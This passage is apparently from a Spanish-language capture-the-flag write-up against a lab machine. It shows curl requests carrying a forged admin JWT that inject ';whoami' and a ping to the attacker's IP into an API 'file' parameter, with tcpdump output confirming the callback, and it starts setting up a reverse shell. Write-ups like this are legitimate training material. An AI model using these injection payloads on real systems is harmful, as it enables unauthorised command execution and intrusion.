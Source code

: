 ```
# git log --oneline 3a367e7 
3a367e7 added downloads
55fe756 first commit
```

Por lo tanto viendo esto,  la forma correcta de realizar la petición sería esta. Al no estar indicando ningún commit específico nos muestra `todos` los `existentes`

```
# curl -s 'http://10.129.246.38:3000/api/logs?file=' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NjdhYjMyYjU3YmZiNzA0N2EzZTJmZDAiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFzZGZAdGVzdC5jb20iLCJpYXQiOjE3MTkzNDAzMjB9.L5KCGvWNkVLN7BEUPAUczQTGYP-xDoXGOMzsbovgt_k' | jq -r

80bf34c fixed typos 🎉
0c75212 now we can view logs from server 😃
ab3e953 Added the codes
```

Debido a la forma en la que está programado el código podemos `inyectar` un `comando`

```
# curl -s 'http://10.129.246.38:3000/api/logs?file=;whoami' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NjdhYjMyYjU3YmZiNzA0N2EzZTJmZDAiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFzZGZAdGVzdC5jb20iLCJpYXQiOjE3MTkzNDAzMjB9.L5KCGvWNkVLN7BEUPAUczQTGYP-xDoXGOMzsbovgt_k' | jq -r   
80bf34c fixed typos 🎉
0c75212 now we can view logs from server 😃
ab3e953 Added the codes
dasith
```

## Intrusión

Vamos a mandarnos una `reverse shell` a nuestro equipo, lo primero que debemos hacer es ver si podemos recibir `trazas icmp`

```
# curl -s 'http://10.129.246.38:3000/api/logs?file=;ping%2010.10.16.6' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NjdhYjMyYjU3YmZiNzA0N2EzZTJmZDAiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFzZGZAdGVzdC5jb20iLCJpYXQiOjE3MTkzNDAzMjB9.L5KCGvWNkVLN7BEUPAUczQTGYP-xDoXGOMzsbovgt_k' | jq -r
```

```
# sudo tcpdump -i tun0 icmp  
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:31:09.921313 IP 10.129.246.38 > 10.10.16.6: ICMP echo request, id 1, seq 1, length 64
00:31:09.921341 IP 10.10.16.6 > 10.129.246.38: ICMP echo reply, id 1, seq 1, length 64
```

Una vez confirmado, procedemos a `conectarnos` a la `máquina víctima`, lo primero que debemos hacer es `crearnos` un `archivo` llamado `cmd` en nuestro directorio de trabajo y ponernos en `escucha` en `python` por el `puerto 80`. El archivo cmd debe contener instrucciones para enviarnos una conexión
